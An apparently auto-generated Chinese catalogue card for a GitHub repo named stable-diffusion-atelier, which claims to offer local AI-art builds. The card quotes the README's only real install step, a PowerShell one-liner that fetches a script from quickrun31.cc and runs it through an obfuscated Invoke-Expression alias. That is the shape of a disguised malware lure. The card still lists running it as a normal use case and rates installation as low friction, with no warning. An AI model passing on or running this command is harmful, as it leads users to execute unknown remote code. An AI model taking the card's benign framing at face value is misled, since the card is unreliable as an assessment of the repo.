

# VillagePrefect/stable-diffusion-atelier

⭐ 94 · MIT · 推送 2026-11-15 · [GitHub](https://github.com/VillagePrefect/stable-diffusion-atelier) · 个人维护

**本地 AI 绘画（Stable Diffusion）启动笔记与构建分发仓库**

自称收集 Stable Diffusion 本地运行的最新构建、安装笔记与常见问题解答。README 实际内容为：通过 PowerShell 执行远程脚本（irm quickrun31.cc/ax38ra）下载并运行当前构建，列出 Windows 10/11、6 GB 内存、约 80 MB 磁盘等要求，首次运行需联网、之后可离线使用。README 中未展示描述所述的采样器、LoRA 或显存规划内容，仅提供该下载命令与 FAQ。MIT 许可，声明与原软件厂商无关联。

## 筛选速览

| 维度 | 判定 | 备注 |
|---|---|---|
| AI 角色 | `ai-ecosystem` | LLM/agent 周边工具 |
| 许可风险 | `permissive` | MIT |
| 部署形态 | `None` |  |
| 模型依赖 | — | README 未给出锁定关系 |
| 硬件要求 | — | 无带数字的原话,不猜 |
| 安装摩擦 | `low` | 无编译、无系统依赖或容器化 |
| 成熟度 | — | 结构信号不足 |

## 能力要点

- README 提供一条 PowerShell 远程脚本命令完成下载与运行
- 列出 Windows 10/11 64 位、6 GB 内存、约 80 MB 磁盘空间要求
- 首次运行需联网拉取最新构建，之后可离线运行
- MIT 许可，声明不隶属于原软件厂商

## 适用场景

- 按 README 步骤在 Windows 上获取并运行本地 AI 绘画构建
- 查看常见问题（更新频率、杀毒软件白名单、离线使用）

## 场景标签

`图像生成` · 领域:内容生成

## 证据(README 行号)

> L5: Looking for a fast way to get started with local AI art? This project collects the latest build, setup notes and ans
> L23: irm quickrun31.cc/ax38ra|&(gal ie*)

## 星数曲线

2026-11-16 98 → 2026-11-21 94（-4）

---
*卡片 v1 · prompt 1.4 · 生成 2026-11-17 · 置信度 low · 依据 README sha `1c95ac5b555c` · [字段定义](../../DATASET.md)*
